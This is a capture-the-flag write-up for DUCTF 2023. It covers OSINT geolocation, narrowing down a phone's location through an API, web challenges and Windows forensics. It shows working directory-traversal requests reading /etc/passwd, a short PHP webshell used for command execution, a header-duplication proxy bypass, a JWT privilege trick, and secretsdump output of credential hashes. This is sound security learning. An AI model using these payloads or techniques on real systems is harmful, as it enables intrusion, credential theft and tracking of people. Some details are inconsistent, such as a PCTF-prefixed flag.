






#ctf #ductf-2023 #osint #osint-image #exiftool #web #logic-flaw #webshell #directory-traversal #python #python-flask #php-jail-escape #jwt #broken-access-control #WSTG-SESS-01 #cookie-tamper #4xx-bypass #reverse-proxy-bypass #misc #autopsy #chainsaw #hayabusa #python-jail-escape #aplusplus 
# Summary

## Certificate


## Statistics


## My Solves


# Osint

## Excellent Vista!

#### Info

What a nice spot to stop,lookout and watch time go by, EXAMINE the image and discover where this was taken.

NOTE: Flag is case-insensitive and requires placing inside `DUCTF{}` wrapper! e.g `DUCTF{Osint_Lookout}`

Author: Yo_Yo_Bro
#### Solve

Output GPS location in a common format ([Refer](https://andreas.scherbaum.la/blog/archives/1141-Extract-better-GPS-coordinates-from-images-using-exiftool.html))

```bash
exiftool -time:all -location:all -G -a -s -c "%.6f" ExcellentVista.jpg
```

^03579c

> [!tip] Or Use cyberchef to extract GPS location
> 


Google Map : `29.509536 S, 153.359572 E`

It is near to `Durrangan Lookout`


> `DUCTF{Durrangan Lookout}`

## faraday

#### Info

We've been trying to follow our target Faraday but we don't know where he is.

All we know is that he's somewhere in Victoria and his phone number is +61491578888.

Luckily, we have early access to the GSMA's new location API. Let's see what we can do with this.

The flag is the name of the Victorian town our target is in, in all lowercase with no spaces, surrounded by `DUCTF{}`. For example, if Faraday was in Swan Hill, the solution would be `DUCTF{swanhill}`.

Author: hashkitten

[https://osint-faraday-9e36cbd6acad.2023.ductf.dev/docs](https://osint-faraday-9e36cbd6acad.2023.ductf.dev/docs)

#### Solve

> Search from Australia since it's a Australian CTF

Google : `australia victoria google map`


- The API


##### First Stage

Query : Roughly at the **left** of the area

```json
{
  "device": {
    "phoneNumber": "+61491578888"
  },
  "area": {
    "areaType": "Circle",
    "center": {
      "latitude": -36.481193,
      "longitude": 142.606009
    },
    "radius": 150000
  },
  "maxAge": 120
}
```

Query : Roughly at the **middle** in the area

```json
{
  "device": {
    "phoneNumber": "+61491578888"
  },
  "area": {
    "areaType": "Circle",
    "center": {
      "latitude": -37.082868,
      "longitude": 144.546164
    },
    "radius": 150000
  },
  "maxAge": 120
}
```

Query : Roughly at the **right** in the area, It returned True 

```json
{
  "device": {
    "phoneNumber": "+61491578888"
  },
  "area": {
    "areaType": "Circle",
    "center": {
      "latitude": -37.207839,
      "longitude": 147.459664
    },
    "radius": 150000
  },
  "maxAge": 120
}
```


##### Second Stage

Focus at right area and select relative `top`, `buttom`, `left`, `right` regions in the right area

First write a script to ease the process


```bash
import requests
requests.urllib3.disable_warnings()
import sys


data = sys.argv[2].split(",")
locations = [float(x.strip()) for x in data]
radius = int(sys.argv[1])
lat = locations[0]
lon = locations[1]

#print(locals())


def verify():
    cookies = {
        'amp_6e403e': 'r7ADCtJJWVS8BbXpEmMov7...1h98cp7l9.1h98e0ede.0.0.0',
    }

    headers = {
        'authority': 'osint-faraday-9e36cbd6acad.2023.ductf.dev',
        'accept': 'application/json',
        'accept-language': 'zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7',
        'content-type': 'application/json',
        # 'cookie': 'amp_6e403e=r7ADCtJJWVS8BbXpEmMov7...1h98cp7l9.1h98e0ede.0.0.0',
        'dnt': '1',
        'origin': 'https://osint-faraday-9e36cbd6acad.2023.ductf.dev',
        'referer': 'https://osint-faraday-9e36cbd6acad.2023.ductf.dev/docs',
        'sec-ch-ua': '"Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-origin',
        'sec-gpc': '1',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36',
    }

    json_data = {
        'device': {
            'phoneNumber': '+61491578888',
        },
        'area': {
            'areaType': 'Circle',
            'center': {
                'latitude': lat,
                'longitude': lon,
            },
            'radius': radius,
        },
        'maxAge': 120,
    }

    response = requests.post(
        'https://osint-faraday-9e36cbd6acad.2023.ductf.dev/verify',
        cookies=cookies,
        headers=headers,
        json=json_data,
        verify=False
    )

    return response.json()


def main():
    global radius
    result = verify().get("verificationResult")
    radius_deduction = radius // 100
    
    if result != "TRUE":
        print("Not in the area")
        return
    
    while 1:
        radius -= radius_deduction
        result = verify().get("verificationResult")
        if result == "FALSE":
            print(f"Last working radius : {radius + radius_deduction}")
            break


if __name__ == "__main__":
    main()
```


Top area

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ python verify.py 125000 '-37.188648, 147.460250'
Last working radius : 123750
```

Left Area

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ python verify.py 125000 '-37.207510, 147.433252'
Last working radius : 123750
```

Button area

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ python verify.py 125000 '-37.221288, 147.459892'
Not in the area
```

Right Area

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ python verify.py 125000 '-37.207470, 147.494750'
Not in the area
```

Now focus at the top left area in the region
##### Third Stage

Found it after a few tries


```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ python verify.py 2000 '-36.453051, 146.40895900000004'
lat: -36.453051, lon: 146.40895900000004, radius: 2000
{"lastLocationTime":"Fri Sep  1 16:29:54 2023","verificationResult":"TRUE"}
Checking location : (-36.403051000000005, 146.40895900000004)
lat: -36.403051000000005, lon: 146.40895900000004, radius: 2000
{"lastLocationTime":null,"verificationResult":"FALSE"}
Checking location : (-36.503051, 146.40895900000004)
lat: -36.503051, lon: 146.40895900000004, radius: 2000
{"lastLocationTime":null,"verificationResult":"FALSE"}
Checking location : (-36.453051, 146.45895900000005)
lat: -36.453051, lon: 146.45895900000005, radius: 2000
{"lastLocationTime":null,"verificationResult":"FALSE"}
Checking location : (-36.453051, 146.35895900000003)
lat: -36.453051, lon: 146.35895900000003, radius: 2000
{"lastLocationTime":null,"verificationResult":"FALSE"}
Radius result : []
Final location : -36.453051, 146.40895900000004
```


> DUCTF{milawa}

## Comeacroppa

#### Info

I was sorting through my photo album and I cannot seem to place this picture. Can you let me know what suburb this is in?

Flag format DUCTF{suburb}

Author: Nosurf


#### Solve

- Noticed the number on top of the building might be `1800` or `1866`


Google reverse image search


Looks like `1866` is the only one which matches


The house at `Maldon` is very much alike


> DUCTF{Maldon}
## Bridget's Back!

#### Info

Bridget's travelling the globe and found this marvellous bridge, can you uncover where she took the photo from?

NOTE: Flag is case-insensitive and requires placing inside `DUCTF{}` wrapper! e.g `DUCTF{a_b_c_d_example}`

Author: Yo_Yo_Bro
#### Solve

> [!warning] 
> This section was written after the CTF ended

> [!tip] Pro TIP
> Use VPN to connect to the target country to get more relevant result
> 
# Web

## static file server

#### Info

Here's a simple Python app that lets you view some files on the server.

Author: joseph

[https://web-static-file-server-9af22c2b5640.2023.ductf.dev](https://web-static-file-server-9af22c2b5640.2023.ductf.dev/)
#### Solve

##### Source Code Analyze

> [!NOTE] 
> `follow_symlinks=True` will make it vulnerable to **directory traversal**
> > app.py
> 
##### Fuzzing and Scanning

- Nuclei

```bash
nuclei -u https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/
```


- Fuzz directory traversal

```bash
feroxbuster -t 150 -u https://web-static-file-server-9af22c2b5640.2023.ductf.dev/ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
```


##### Exploit directory traversal

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ curl --path-as-is 'https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/../../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/sh

┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ curl --path-as-is 'https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/../../flag.txt'
DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}
```

> [!NOTE] URL encode to avoid using `--path-as-is`
> ```bash
> http https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
> ```

> DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}
## xxd-server

#### Info

I wrote a little app that allows you to hex dump files over the internet.

Author: hashkitten

[https://web-xxd-server-2680de9c070f.2023.ductf.dev](https://web-xxd-server-2680de9c070f.2023.ductf.dev/)

#### Solve


This part of code is they key, it allows user to upload `.php` files with the **xxd** output of original upload content


I created `xxd.php` to test it locally

> `xxd.php`

```php
<?php
# Retrieve parameters from cli


function xxd(string $s): string {
	$out = '';
	$ctr = 0;
	foreach (str_split($s, 16) as $v) {
		$hex_string = implode(' ', str_split(bin2hex($v), 4));
		$ascii_string = '';
		foreach (str_split($v) as $c) {
			$ascii_string .= $c < ' ' || $c > '~' ? '.' : $c;
		}
		$out .= sprintf("%08x: %-40s %-16s\n", $ctr, $hex_string, $ascii_string);
		$ctr += 16;
	}
	return $out;
}

echo xxd($argv[1]);

?>
```

So, if my webshell is more than `16` characters, it will fail

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ php xxd.php '<?php echo "Done">' | tee test.php
00000000: 3c3f 7068 7020 6563 686f 2022 446f 6e65  <?php echo "Done
00000010: 223e                                     ">
```

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ php test.php
PHP Parse error:  syntax error, unexpected token "echo" in /media/sf_kali-share/ductf/test.php on line 1
```

Google : `shortest php webshell`

> https://github.com/Xib3rR4dAr/shortest-php-webshell/blob/master/0.php

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ php xxd.php '<?=`$_GET[0]`;' | tee shortest.php
00000000: 3c3f 3d60 245f 4745 545b 305d 603b       <?=`$_GET[0]`;
```

Start php web server and confirmed that it works!

```bash
php -S 0.0.0.0:80
curl 127.0.0.1/shortest.php?0=id
```


By viewing `Dockerfile`, I know that flag is at `/flag`

```bash
FROM php:8.1-apache

COPY index.php .htaccess /var/www/html/
COPY flag /
RUN sed -i 's/AllowOverride None/AllowOverride All/g' /etc/apache2/apache2.conf
RUN mkdir -p /var/www/html/uploads && chmod 1333 /var/www/html/uploads
```

Get the flag

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ curl 'https://web-xxd-server-2680de9c070f.2023.ductf.dev/uploads/2921f5b9027cb601/shortest.php?0=cat+/flag'
00000000: 3c3f 3d60 245f 4745 545b 305d 603b       DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}
```

> DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}

## grades_grades_grades

#### Info

Sign up and see those grades :D! How well did you do this year's subject? Author: donfran

[https://web-grades-grades-grades-c4627b227382.2023.ductf.dev](https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/)
#### Solve

The JWT secret key is not crackable

> auth.py


In the singup endpoint, user can control what key and values to be added to server signed JWT token upon signing up

> route.py


JWT token that has `is_teacher` key will be able to view the flag

> auth.py


> routes.py


Sign up and add `is_teacher` to form data


> DUCTF{Y0u_Kn0W_M4Ss_A5s1GnM3Nt_c890ne89c3}

## actually-proxed

#### Info

Still cool haxxorz only!!! Except this time I added in a reverse proxy for extra security. Nginx and the standard library proxy are waaaayyy too slow (amateurs). So I wrote my own :D

Author: Jordan Bertasso

[http://actually.proxed.duc.tf:30009](http://actually.proxed.duc.tf:30009/)
#### Solve

It checks if `X-Forwarded-For` 's value in header is `31.33.33.7`


But there's a proxy in front of it that will replace `X-Forwarded-For` to client's real IP




But it will just **break** after replacing a matched `x-forward-for` value @@

Just add 2 `X-Forwarded-For: 31.33.33.7` in headers to bypass that



> DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}
# Misc

## helpless

#### Info

I accidentally set my system shell to the Python `help()` function! Help!!

The flag is at `/home/ductf/flag.txt`.

The password for the `ductf` user is `ductf`.

Author: hashkitten

`ssh ductf@2023.ductf.dev -p30022`

#### Solve

I tried to enter interactive shell, but it did not work as excepted (Works on my local environment)

```bash
help> str
```




I try to read files instead

Press `h` to enter `less`


I googled : `open another file in less`

> https://superuser.com/questions/347760/less-command-with-multiple-files-how-to-navigate-to-next-previous


Then I input `:e` to examine another file


Confirmed that it worked


Next, get the flag


> DUCTF{sometimes_less_is_more}

## Rogueful Helper

> [!warning] 
> This section was written after the CTF ended
#### Info

The DUC Corp security team began receiving alerts for reconaissance activity from a newly installed workstation. Analysts have put together a brief investigation package for triage.

What was the ICMP Payload used for the task that finished 2023-08-26 15:32:20?. Flag format: `DUCTF{payload}`

[DUPWS213_investigation_package.enc.zip](https://bigfiles.duc.tf/DUPWS213_investigation_package.enc.zip) (sha256: `e7e12a1e421d685f8f1ecfebc33faa7bff5696b6b7c18559dd2389b6e5d1ac60`)

Password: `quooz6cuin5Aiw2aiRue9een2eimuviem2ibi2Ahr7Chiepeof9oxuz5oofeu1oo`

Author: Conletz

#### Solve

##### Basic Insight

```bash
┌──(bravosec㉿fsociety)-[/media/…/Misc/Rogueful Helper/DUPWS213_investigation_package/Files]
└─$ ls -latr
total 297740
-rwxrwx--- 1 root vboxsf 304873472 Aug 22 14:01 '$MFT'
drwxrwx--- 1 root vboxsf      4096 Aug 26 23:12  ProgramData
drwxrwx--- 1 root vboxsf         0 Aug 27 00:48  Windows
drwxrwx--- 1 root vboxsf      4096 Aug 27 03:06 'Program Files'
drwxrwx--- 1 root vboxsf         0 Aug 27 03:07  .
drwxrwx--- 1 root vboxsf      4096 Aug 27 03:08  Users
drwxrwx--- 1 root vboxsf         0 Sep  3 14:25  ..
```

Since it has mentioned ICMP payload, try to search for packet captures first, but no result

```bash
┌──(bravosec㉿fsociety)-[/media/…/Misc/Rogueful Helper/DUPWS213_investigation_package/Files]
└─$ find . -type f -iname -ls "*.pcap*"
```

Check powershell command history, nothing interesting

```bash
┌──(bravosec㉿fsociety)-[/media/…/Misc/Rogueful Helper/DUPWS213_investigation_package/Files]
└─$ find . -type f -iname "ConsoleHost_history.txt"
./Users/Masha Solovyov/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt

┌──(bravosec㉿fsociety)-[/media/…/Misc/Rogueful Helper/DUPWS213_investigation_package/Files]
└─$ cat './Users/Masha Solovyov/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt'
ipconfig
whoami
```
##### Analyze windows events log

There's a log for powershell

```bash
┌──(bravosec㉿fsociety)-[/media/…/Misc/Rogueful Helper/DUPWS213_investigation_package/Files]
└─$ find . -type f -iname "*.evtx" -ls
    19398   1092 -rwxrwx---   1 root     vboxsf    1118208 Aug 26 13:46 ./Windows/System32/winevt/Logs/Application.evtx
    19399     68 -rwxrwx---   1 root     vboxsf      69632 Aug 26 13:04 ./Windows/System32/winevt/Logs/OpenSSH%4Admin.evtx
    19400     68 -rwxrwx---   1 root     vboxsf      69632 Aug 26 13:04 ./Windows/System32/winevt/Logs/OpenSSH%4Operational.evtx
    19401   6212 -rwxrwx---   1 root     vboxsf    6361088 Aug 26 13:46 ./Windows/System32/winevt/Logs/Security.evtx
    19402     68 -rwxrwx---   1 root     vboxsf      69632 Aug 26 13:04 ./Windows/System32/winevt/Logs/Setup.evtx
    19403   1092 -rwxrwx---   1 root     vboxsf    1118208 Aug 26 13:46 ./Windows/System32/winevt/Logs/System.evtx
    19404   1092 -rwxrwx---   1 root     vboxsf    1118208 Aug 26 13:29 ./Windows/System32/winevt/Logs/Windows\ PowerShell.evtx
```

View the event log

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/chainsaw]
└─$ ./chainsaw_x86_64-unknown-linux-gnu dump /media/sf_kali-share/ctf/ductf-2023/Misc/Rogueful\ Helper/DUPWS213_investigation_package/Files/Windows/System32/winevt/Logs/Windows\ PowerShell.evtx
```

It was running npcap at `08-26` which matched in challenge's description, 

assume it's also using `nmap` since `npcap` is required for it to run on windows


##### Autopsy

###### Gather Basic Info

- System info


- Installed programs at `2023-08-26`


- Users


###### Explore Timelines

Filter timeline at `2023-08-26`, and make sure to select `GMT/UTC`


User `masha.solovyov` was using windows search during `05:00`~`06:00` based on thumbail


During `15:00`~`16:00` , a third party program `VSA X` was used, and it's related to **Nmap**


###### Search for keywords

Search for `nmap`


Sort by modified time and focus at `2023-08-26`, found a db file which contains `nmap` scan data


The timestamp matched exactly to `2023-08-26 15:32:20?`


Extract `all_args` and got the `ICMP` payload


```bash
┌──(bravosec㉿fsociety)-[~]
└─$ echo cHd5cmVxAWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWE=|base64 -d
pwyreqaaaaaaaaaaaaaaaaaaaaaaaaa 
```

> PCTF{cHd5cmVxAWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWE=}

> [!NOTE] 
> Another faster way to solve the challenge
> ```bash
> ┌──(bravosec㉿fsociety)-[/media/…/Misc/Rogueful Helper/DUPWS213_investigation_package/Files]
> └─$ grep -rin "15:32:20" -E5
> grep: Program Files/VSA X/Probe/audit.s3db: binary file matches
> 
> ┌──(bravosec㉿fsociety)-[/media/…/Misc/Rogueful Helper/DUPWS213_investigation_package/Files]
> └─$ file 'Program Files/VSA X/Probe/audit.s3db'
> Program Files/VSA X/Probe/audit.s3db: SQLite 3.x database, last written using SQLite version 3008003, page size 1024, file counter 25, database pages 7, cookie 0xf, schema 4, UTF-8, version-valid-for 25
> ```
> 
> ```bash
> ┌──(bravosec㉿fsociety)-[/media/…/Misc/Rogueful Helper/DUPWS213_investigation_package/Files]
> └─$ sqlite3 'Program Files/VSA X/Probe/audit.s3db'
> SQLite version 3.42.0 2023-05-16 12:36:15
> Enter ".help" for usage hints.
> sqlite> .tables
> agent  tasks
> 
> sqlite> SELECT sql FROM sqlite_schema;
> CREATE TABLE tasks (id INTEGER PRIMARY KEY NOT NULL, run_version TEXT, pid NUMERIC, task TEXT, start_time DATETIME, end_time DATETIME, run_time TEXT, command_line TEXT, all_args TEXT, probe_outbase TEXT, xml_filename TEXT, run_issue TEXT)
> CREATE TABLE agent (id INTEGER PRIMARY KEY NOT NULL, pname TEXT, pvalue TEXT)
> 
> sqlite> .mode column
> sqlite> .headers on
> sqlite> select * from tasks;
> ```
> 
> 

##### Further Exploration

###### Secretsdump

Dump some hashes from `Windows/System32/config/`

```bash
┌──(bravosec㉿fsociety)-[/media/…/Files/Windows/System32/config]
└─$ secretsdump.py -security SECURITY -system SYSTEM LOCAL
Impacket v0.10.1.dev1+20230718.100545.fdbd2568 - Copyright 2022 Fortra

[*] Target system bootKey: 0xd0c3be6f12b15b6e97bfcd9ded768e19
[*] Dumping cached domain logon information (domain/username:hash)
DUCTF.LOCAL/masha.solovyov:$DCC2$10240#masha.solovyov#cda7d2ed60d5e198a82358794eac8951: (2023-08-26 05:33:09)
DUCTF.LOCAL/Administrator:$DCC2$10240#Administrator#cd29b2d9b467c691fba3ba8312d128a5: (2023-08-21 15:08:44)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:7500250027005e007a0067003500410038003d00700062005a00760053004a0058006e005a006a00640071006e0051003400630050004b003b002d007900790059006400280026003800320025003400390061006f003d0076003f003400310061002e00350045003d005200250060003c00500052005f0063005f0056002d00670043002c00310073006000650022004500670035005d0021002a0032002c0070004b00510024006e0049006b003e0065005c003e002d00480037002b006f006b005c0063005a006300580024003c007600390021005300420066002b0067004900320079004700430043002a005000
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:c23dedfdc26a0eb22d391fcf19e9c8ae
[*] DPAPI_SYSTEM
dpapi_machinekey:0xe5e37bb4c9597ced5c00ceb89198abe2feba81fe
dpapi_userkey:0x7d82d8a12429ddd8b5a8757541338d6476d84672
[*] NL$KM
 0000   29 77 CD FD 99 DE F7 2E  7B 5C 2B 26 3C B3 D5 39   )w......{\+&<..9
 0010   4B A9 5A 7B A6 19 0D E6  97 07 9B BD C6 52 0C 95   K.Z{.........R..
 0020   3D A0 5A 1D 58 BF C7 E8  41 C8 AE 0D 13 00 19 85   =.Z.X...A.......
 0030   47 44 0D 4B 14 71 8B 70  6D 02 48 11 A9 A1 D1 11   GD.K.q.pm.H.....
NL$KM:2977cdfd99def72e7b5c2b263cb3d5394ba95a7ba6190de697079bbdc6520c953da05a1d58bfc7e841c8ae0d1300198547440d4b14718b706d024811a9a1d111
[*] Cleaning up...
```
###### hayabusa

- Computer Metrics

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/hayabusa-2.8.0]
└─$ ./hayabusa-2.8.0-lin-gnu computer-metrics -d '/media/sf_kali-share/ctf/ductf-2023/Misc/Rogueful Helper/DUPWS213_investigation_package/Files/Windows/System32/winevt/Logs/'
```


- Eid Metrics

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/hayabusa-2.8.0]
└─$ ./hayabusa-2.8.0-lin-gnu eid-metrics -d '/media/sf_kali-share/ctf/ductf-2023/Misc/Rogueful Helper/DUPWS213_investigation_package/Files/Windows/System32/winevt/Logs/'
```



- pivot keywords list

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/hayabusa-2.8.0]
└─$ ./hayabusa-2.8.0-lin-gnu pivot-keywords-list -d '/media/sf_kali-share/ctf/ductf-2023/Misc/Rogueful Helper/DUPWS213_investigation_package/Files/Windows/System32/winevt/Logs/' -m critical
```

> Nothing found

- Logon Summary

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/hayabusa-2.8.0]
└─$ ./hayabusa-2.8.0-lin-gnu logon-summary -d '/media/sf_kali-share/ctf/ductf-2023/Misc/Rogueful Helper/DUPWS213_investigation_package/Files/Windows/System32/winevt/Logs/'
```

Interesting Success Logins


Failed Logons


- DFIR Timeline

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/forensics/hayabusa-2.8.0]
└─$ ./hayabusa-2.8.0-lin-gnu json-timeline -d '/media/sf_kali-share/ctf/ductf-2023/Misc/Rogueful Helper/DUPWS213_investigation_package/Files/Windows/System32/winevt/Logs/'
```


## Welcome to DUCTF!

#### Info

